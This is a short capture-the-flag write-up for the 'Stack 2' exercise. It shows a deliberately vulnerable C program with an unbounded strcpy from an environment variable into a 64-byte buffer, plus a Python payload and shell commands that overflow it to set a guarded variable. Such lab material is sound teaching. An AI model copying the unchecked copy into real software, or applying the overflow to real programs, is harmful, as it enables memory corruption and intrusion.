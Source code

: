 # Stack 2

Stack 2 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
This program requires editing the environment variable *GREENIE* which is used as input. Thus, writing an oversized value into *GREENIE* causes a buffer overflow. However, the special variable meant to overwrite *modified* cannot be copy pasted, which makes things a little interesting.

stack2.py
```python3
print("A"*64+"\x0a\x0d\x0a\x0d")
```
Shell commands
```shell
python3 stack2.py > exploit
GREENIE=$(cat exploit)
export GREENIE
./stack2
```
Output
```shell
you have correctly modified the variable
```
